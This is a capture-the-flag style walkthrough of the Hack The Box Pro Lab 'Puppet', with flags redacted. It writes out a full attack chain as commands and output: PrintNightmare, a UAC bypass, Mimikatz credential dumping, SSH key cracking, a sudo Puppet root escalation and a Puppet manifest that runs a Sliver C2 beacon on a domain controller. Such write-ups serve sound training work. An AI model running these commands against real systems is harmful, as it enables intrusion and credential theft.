# Hack The Box Pro Lab: Puppet - Walkthrough

> **Status:** Completed  
> **Platform:** Hack The Box Pro Labs  
> **Lab:** Puppet  
> **Author:** Shrikant Shinde / FindYourBugs

---

## Disclaimer

This write-up is for educational purposes and is based on an authorized Hack The Box Pro Lab environment. Do not use these techniques against systems you do not own or do not have explicit permission to test.

**Note for GitHub:** Flags, reusable secrets, hashes, and sensitive credential values have been intentionally redacted.

---

## Table of Contents

- [Overview](#overview)
- [Attack Path Summary](#attack-path-summary)
- [Tools Used](#tools-used)
- [1. Initial Access Material from FTP](#1-initial-access-material-from-ftp)
- [2. Connecting to Sliver](#2-connecting-to-sliver)
- [3. Initial File01 Session and First Flag](#3-initial-file01-session-and-first-flag)
- [4. File01 Privilege Escalation with PrintNightmare](#4-file01-privilege-escalation-with-printnightmare)
- [5. Building and Using SspiUacBypass](#5-building-and-using-sspiuacbypass)
- [6. SYSTEM Beacon on File01](#6-system-beacon-on-file01)
- [7. Credential Dumping Notes](#7-credential-dumping-notes)
- [8. Enumerating DC01 Shares](#8-enumerating-dc01-shares)
- [9. Impersonating Puppet Service Account](#9-impersonating-puppet-service-account)
- [10. Retrieving and Cracking the SSH Key](#10-retrieving-and-cracking-the-ssh-key)
- [11. Pivoting to the Linux Puppet Host](#11-pivoting-to-the-linux-puppet-host)
- [12. Linux Privilege Escalation via Puppet sudo Rule](#12-linux-privilege-escalation-via-puppet-sudo-rule)
- [13. Abusing Puppet to Execute Payload on DC01](#13-abusing-puppet-to-execute-payload-on-dc01)
- [14. DC01 Access and DPAPI Triage](#14-dc01-access-and-dpapi-triage)
- [Troubleshooting Notes](#troubleshooting-notes)
- [Key Takeaways](#key-takeaways)

---

## Overview

Puppet is an Active Directory-focused Pro Lab involving Windows and Linux systems, Sliver C2 operations, privilege escalation, token impersonation, SMB share access, SSH key abuse, Puppet configuration abuse, and DPAPI credential triage.

The attack path covered in this write-up:

1. Anonymous FTP access exposed a Sliver client and config.
2. Sliver was used to interact with existing beacons/sessions on `File01`.
3. Initial user flag was read from `Bruce.Smith`'s desktop.
4. PrintNightmare was used to create a local administrator account.
5. `SspiUacBypass.exe` was used to execute a Sliver implant as SYSTEM.
6. SYSTEM access on `File01` was used to impersonate the Puppet service account.
7. The impersonated token allowed access to the `\\dc01\it` share.
8. An encrypted ED25519 SSH private key was downloaded and cracked.
9. SSH access to the Linux Puppet host was obtained through a Sliver port forward.
10. A Puppet sudo misconfiguration allowed Linux root access.
11. Puppet manifests were abused to trigger payload execution on DC01.
12. A DC01 beacon was obtained and DPAPI triage exposed the final credential/flag.

---

## Attack Path Summary

| Stage | Technique | Result |
|---|---|---|
| Initial access | Anonymous FTP | Downloaded Sliver client/config |
| C2 access | Sliver client | Connected to existing Sliver server |
| User access | Existing File01 session | Read user flag |
| Privilege escalation | PrintNightmare | Created local admin user |
| UAC bypass | SspiUacBypass | Spawned SYSTEM beacon |
| Credential access | Mimikatz / SAM | Dumped local SAM hashes |
| Lateral movement prep | Service token impersonation | Accessed DC01 `it` share |
| Credential discovery | SSH private key | Downloaded ED25519 key |
| Credential cracking | John the Ripper | Cracked SSH key passphrase |
| Linux access | SSH via port forward | Logged into Puppet host |
| Linux privesc | `sudo puppet` | Root shell on Puppet host |
| DC01 execution | Puppet manifest abuse | Triggered Windows payload on DC01 |
| Final triage | SharpDPAPI | Retrieved final credential/flag |

---

## Tools Used

- `ftp`
- Sliver C2
- PowerShell
- PrintNightmare PoC / `Invoke-Nightmare`
- UAC-BOF-Bonanza / `SspiUacBypass`
- Mimikatz
- Sliver Armory extensions
- `sa-netshares`
- John the Ripper / `ssh2john.py`
- OpenSSH client
- `socat`
- Puppet
- SharpDPAPI

---

## 1. Initial Access Material from FTP

Anonymous FTP exposed two useful files:

```bash
ftp <target-ip> 21
```

Login:

```text
Username: anonymous
Password: anonymous / blank
```

Files discovered:

```text
red_127.0.0.1.cfg
sliver-client_linux
```

Download them:

```ftp
mget red_127.0.0.1.cfg sliver-client_linux
```

Make the Sliver client executable:

```bash
chmod +x sliver-client_linux
```

---

## 2. Connecting to Sliver

Start the Sliver client:

```bash
./sliver-client_linux
```

Select the available server profile and connect.

Useful Sliver commands:

```text
sessions
beacons
use <id>
info
whoami
ps
```

---

## 3. Initial File01 Session and First Flag

A File01 session was available as:

```text
PUPPET\Bruce.Smith
```

Read the user's desktop:

```text
execute -o -- cmd.exe /c dir "C:\Users\Bruce.Smith\Desktop"
execute -o -- cmd.exe /c type "C:\Users\Bruce.Smith\Desktop\flag.txt"
```

Flag redacted:

```text
PUPPET{REDACTED_USER_FLAG}
```

---

## 4. File01 Privilege Escalation with PrintNightmare

Upload the PrintNightmare PowerShell script to `C:\Temp`.

**Important Sliver path note:** Prefer forward slashes or verify the final filename after upload. Sliver sometimes parsed single backslashes unexpectedly.

Example:

```text
cd c:\\Temp
upload /root/puppet/CVE-2021-1675.ps1 C:/Temp/CVE-2021-34527.ps1
ls C:/Temp
```

In my run, the upload was parsed as:

```text
tempCVE-2021-34527.ps1
```

So the working command used that exact filename:

```text
execute -o -- powershell.exe -ExecutionPolicy Bypass -NoProfile -Command ". C:\Temp\tempCVE-2021-34527.ps1; Invoke-Nightmare -NewUser <local_admin_user> -NewPassword '<TempAdminPassword>'"
```

Successful output showed:

```text
[+] created payload at ...\nightmare.dll
[+] added user <local_admin_user> as local administrator
[+] deleting payload ...\nightmare.dll
```

Then launch the Sliver implant as the newly created local admin:

```text
runas -u <local_admin_user> -P '<TempAdminPassword>' -p "C:\ProgramData\Puppet\puppet-update.exe"
```

This produced a new beacon as the local admin.

---

## 5. Building and Using SspiUacBypass

The walkthrough expected a standalone EXE:

```text
SspiUacBypass.exe
```

Clone the repository:

```bash
cd /root/.sliver-client/extensions
git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
```

Install build dependencies:

```bash
apt update
apt install -y git make mingw-w64 gcc-mingw-w64
```

Build only the `SspiUacBypass` component:

```bash
cd /root/.sliver-client/extensions/UAC-BOF-Bonanza/SspiUacBypass
make
```

Compiled binary:

```text
/root/.sliver-client/extensions/UAC-BOF-Bonanza/SspiUacBypass/bin/standalone/SspiUacBypass.exe
```

Upload to File01:

```text
upload /root/.sliver-client/extensions/UAC-BOF-Bonanza/SspiUacBypass/bin/standalone/SspiUacBypass.exe C:/Temp/SspiUacBypass.exe
```

Run from the local admin beacon:

```text
execute -o -- C:/Temp/SspiUacBypass.exe C:/ProgramData/Puppet/puppet-update.exe
```

Successful output:

```text
Bypass Success! Now impersonating the forged token...
Creating temporary service...
Executing 'c:\programdata\puppet\puppet-update.exe' as SYSTEM user...
Deleting temporary service...
Finished
```

A new SYSTEM beacon was received.

---

## 6. SYSTEM Beacon on File01

Switch to the new beacon/session and verify:

```text
use <system_beacon_id>
execute -o -- whoami
```

Expected:

```text
nt authority\system
```

Read the local administrator flag:

```text
execute -o -- powershell.exe -NoProfile -Command "Get-Content 'C:\Users\Administrator\Desktop\flag.txt'"
```

Flag redacted:

```text
PUPPET{REDACTED_FILE01_ADMIN_FLAG}
```

---

## 7. Credential Dumping Notes

Upload Mimikatz:

```text
upload /root/puppet/mimikatz.exe C:/Temp/mimikatz.exe
```

Run Mimikatz properly through `execute`:

```text
execute -o -- C:/Temp/mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

In this lab, live LSASS logon parsing returned:

```text
ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list
```

But local SAM dumping worked:

```text
execute -o -- C:/Temp/mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

Sensitive hash values are intentionally omitted from this public write-up.

---

## 8. Enumerating DC01 Shares

Install only the required Sliver Armory extension:

```text
armory search netshares
armory install sa-netshares
```

Then enumerate DC01 shares:

```text
sa-netshares dc01
```

Shares discovered:

```text
ADMIN$    Remote Admin
C$        Default share
IPC$      Remote IPC
it        it admin share
NETLOGON  Logon server share
SYSVOL    Logon server share
```

Trying to access the `it` share directly as SYSTEM failed:

```text
execute -o -- cmd.exe /c "dir \\\\dc01.puppet.vl\\it /a"
```

Output:

```text
Access is denied.
```

Why? Local SYSTEM on File01 authenticates over SMB as the machine account, not as the service user required for the share.

---

## 9. Impersonating Puppet Service Account

Process enumeration showed a Puppet service process:

```text
PUPPET\svc_puppet_win_t1    ruby.exe
```

The PID-based impersonation failed:

```text
impersonate 3632
```

But impersonating by username succeeded:

```text
impersonate PUPPET\\svc_puppet_win_t1
```

Successful output:

```text
Successfully impersonated PUPPET\svc_puppet_win_t1
```

Now the `it` share was accessible:

```text
execute -o -- cmd.exe /c "dir \\\\dc01.puppet.vl\\it /a"
execute -o -- cmd.exe /c "dir \\\\dc01.puppet.vl\\it\\.ssh /a"
```

Download the SSH key:

```text
download \\\\dc01.puppet.vl\\it\\.ssh\\ed25519
```

---

## 10. Retrieving and Cracking the SSH Key

The downloaded filename was messy because it preserved the UNC path. Rename it:

```bash
cd /root/puppet
mv '\\dc01.puppet.vl\it\.ssh\ed25519' ed25519
```

Convert the encrypted SSH private key for John:

```bash
python3 /usr/share/john/ssh2john.py ed25519 > ed25519.hash
```

Crack it:

```bash
john ed25519.hash --wordlist=/usr/share/wordlists/rockyou.txt
john --show ed25519.hash
```

The passphrase was recovered. It is redacted here:

```text
ed25519:<REDACTED_KEY_PASSPHRASE>
```

Fix permissions:

```bash
chmod 600 ed25519
```

If SSH returns a libcrypto error, normalize line endings and test the key:

```bash
dos2unix ed25519 2>/dev/null || sed -i 's/\r$//' ed25519
ssh-keygen -y -f ed25519
```

---

## 11. Pivoting to the Linux Puppet Host

Create a Sliver port forward to SSH:

```text
portfwd add --bind 2222 -r <linux_puppet_host_ip>:22
```

Then SSH through localhost:

```bash
ssh -i ed25519 -p 2222 -o IdentitiesOnly=yes "svc_puppet_lin_t1@puppet.vl"@127.0.0.1
```

Enter the cracked SSH key passphrase when prompted.

Successful login banner showed Ubuntu 22.04.

---

## 12. Linux Privilege Escalation via Puppet sudo Rule

Check sudo permissions:

```bash
sudo -l
```

The service account could run Puppet as root without a password:

```text
(ALL) NOPASSWD: /usr/bin/puppet
```

Use Puppet to set the SUID bit on `/bin/bash`:

```bash
sudo puppet apply -e "exec { '/bin/sh -c \"chmod u+s /bin/bash\"': }"
```

Spawn a root shell:

```bash
bash -p
id
```

Expected:

```text
euid=0(root)
```

Read the Linux root flag:

```bash
cat /root/flag.txt
```

Flag redacted:

```text
PUPPET{REDACTED_LINUX_ROOT_FLAG}
```

---

## 13. Abusing Puppet to Execute Payload on DC01

Generate a Windows Sliver beacon:

```text
generate beacon --mtls <c2_ip>:8443 --os windows --arch amd64 --save /tmp/update.exe
```

Upload it to the SMB share that File01 exposes:

```text
upload /tmp/update.exe \\\\file01.puppet.vl\\files\\update.exe
```

On the Linux Puppet host as root, create/modify the Puppet manifest:

```bash
mkdir -p /etc/puppet/code/environments/production/manifests
cat > /etc/puppet/code/environments/production/manifests/site.pp << 'MANIFEST'
node 'dc01.puppet.vl' {
  exec { 'pwned':
    command   => 'C:\\Windows\\System32\\cmd.exe /c \\\\file01.puppet.vl\\files\\update.exe',
    logoutput => true,
  }
}
node default {
  notify { 'This is the default node': }
}
MANIFEST
```

Wait for Puppet agent execution. A new DC01 beacon was received:

```text
Beacon <id> LIVE_SPHERE - <dc01_ip> (DC01) - windows/amd64
```

Convert it to an interactive session if needed:

```text
use <dc01_beacon_id>
interactive
sessions
use <dc01_session_id>
```

Verify:

```text
execute -o -- whoami
execute -o -- hostname
```

Expected user:

```text
PUPPET\svc_puppet_win_t0
```

Expected host:

```text
DC01
```

---

## 14. DC01 Access and DPAPI Triage

Upload SharpDPAPI. Again, prefer forward slashes with Sliver uploads:

```text
upload /root/puppet/SharpDPAPI.exe C:/Users/Public/SharpDPAPI.exe
ls C:/Users/Public
```

Run machine triage:

```text
execute -o -- C:/Users/Public/SharpDPAPI.exe machinetriage
```

SharpDPAPI found a credential/flag under machine credential triage. The final value is redacted:

```text
Credential : PUPPET{REDACTED_FINAL_FLAG}
```

---

## Troubleshooting Notes

### 1. Sliver Windows path parsing

This was one of the biggest issues during the lab.

Bad example:

```text
upload file.exe c:\users\public\file.exe
```

Sometimes this became:

```text
C:\Windows\system32\userspublicfile.exe
```

Reliable style:

```text
upload file.exe C:/Users/Public/file.exe
upload file.exe C:/Temp/file.exe
```

### 2. Sliver `execute` syntax

Wrong:

```text
execute -o --cmd.exe /c whoami
```

Correct:

```text
execute -o -- cmd.exe /c whoami
```

There must be a space after `--`.

### 3. Running executables inside Sliver

Wrong:

```text
mimikatz privilege::debug sekurlsa::logonpasswords exit
```

Correct:

```text
execute -o -- C:/Temp/mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

### 4. `make` must be run from Kali, not inside Sliver

Sliver command prompt is not a Linux shell.

Wrong:

```text
sliver > make
```

Correct:

```bash
cd /root/.sliver-client/extensions/UAC-BOF-Bonanza/SspiUacBypass
make
```

### 5. `armory install all` crashed Sliver

Installing all Armory extensions caused a Sliver client panic:

```text
panic: mandatory argument not allowed after optional one
```

Fix by moving broken extensions aside:

```bash
cd /root/.sliver-client
mkdir -p extensions_bak
mv extensions extensions_bak/extensions_broken_$(date +%F_%H%M%S)
mkdir extensions
```

Then install only the required extension:

```text
armory search netshares
armory install sa-netshares
```

### 6. Beacon task ID is not a session ID

After running:

```text
interactive
```

Sliver returns a task ID first. Wait for a new session message, then run:

```text
sessions
use <new_session_id>
```

### 7. SYSTEM is not always enough for SMB access

`NT AUTHORITY\SYSTEM` on File01 authenticates remotely as the machine account. To access `\\dc01\it`, the Puppet service account token was required:

```text
impersonate PUPPET\\svc_puppet_win_t1
```

### 8. SSH private key permissions

If SSH says:

```text
WARNING: UNPROTECTED PRIVATE KEY FILE!
```

Fix it:

```bash
chmod 600 ed25519
```

If SSH says:

```text
Load key "ed25519": error in libcrypto
```

Normalize line endings and verify the key:

```bash
dos2unix ed25519 2>/dev/null || sed -i 's/\r$//' ed25519
ssh-keygen -y -f ed25519
```

---

## Key Takeaways

- Always verify where Sliver actually writes uploaded files.
- Beacon mode delays are normal; wait for check-ins before assuming a task failed.
- Local SYSTEM does not automatically mean remote SMB access as a privileged domain user.
- Token impersonation by username worked better than PID-based impersonation in this lab.
- Puppet misconfigurations can lead to powerful cross-platform escalation paths.
- Public write-ups should avoid publishing full flags, hashes, or reusable secrets.

---

## Final Result

Puppet Pro Lab completed successfully. The lab covered a realistic chain across Windows AD, Linux, Puppet infrastructure, Sliver C2, credential access, token impersonation, and DPAPI triage.


## Screenshot Gallery

> Screenshots below were recreated from the terminal log and sensitive values were redacted.



















